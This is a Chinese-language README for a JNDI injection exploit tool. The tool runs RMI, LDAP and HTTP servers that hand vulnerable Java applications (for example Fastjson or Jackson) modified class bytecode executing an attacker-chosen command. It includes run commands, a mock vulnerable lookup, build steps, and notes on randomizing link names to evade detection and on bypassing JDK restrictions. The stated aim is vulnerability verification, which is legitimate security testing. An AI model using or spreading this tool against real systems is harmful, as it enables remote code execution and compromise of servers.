 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

## 使用

可执行程序为jar包，在命令行中运行以下命令：

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

其中:

- **-C** - 远程class文件中要执行的命令。

  （可选项 , 默认命令是mac下打开计算器，即"open /Applications/Calculator.app"）

- **-A** - 服务器地址，可以是IP地址或者域名。

  （可选项 , 默认地址是第一个网卡地址）

注意:

- 要确保 **1099**、**1389**、**8180**端口可用，不被其他程序占用。

  或者你也可以在run.ServerStart类26~28行更改默认端口。

- 命令会被作为参数传入**Runtime.getRuntime().exec()**，

  所以需要确保命令传入exec()方法可执行。
  
  **bash等可在shell直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C "bash -c ..."**

## 示例

### 本地演示：

1. 启动 JNDI-Injection-Exploit：

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    截图：
    ![](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)


2. 我们需要把第一步中生成的 JNDI链接注入到存在漏洞的应用环境中，方便解释用如下代码模仿漏洞环境：

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   当上面代码运行后，应用便会执行相应命令，这里是弹出计算器，没截图，可以自己测一下。

   截图是工具的server端日志：

    ![](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## 安装

下面两种方法都可以得到Jar包

1. 从 [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases)直接下载最新的Jar。

2. 把源码下载到本地然后自行编译打包。（在Java1.7+ 、Java1.8+ 和 Maven 3.x+环境下测试可以）

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## 工具实现

1. 首先生成的链接后面codebaseClass是6位随机的，这个是因为不希望让工具生成的链接本身成为一种特征被监控或拦截。
2. 服务器地址实际就是codebase地址，相比于marshalsec中的JNDI server来说，这个工具把JNDI server和HTTP server绑定到一起，并自动启动HTTP server返回相应class，更自动化了。
3. HTTP server基于jetty实现的，本质上是一个能下载文件的servlet，比较有意思的是我提前编译好class模板放到resource目录，然后servlet会读取class文件，使用ASM框架对读取的字节码进行修改，然后插入我们想要执行的命令，返回修改后的字节码。

## 待实现

- （已完成EL表达式绕过部分）在更高版本的JDK环境中trustURLCodebase变量为false，限制了远程类的加载，我会找时间把[JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)这个项目的东西融入到本项目中，生成能绕过JDK限制JNDI链接。
- … ...
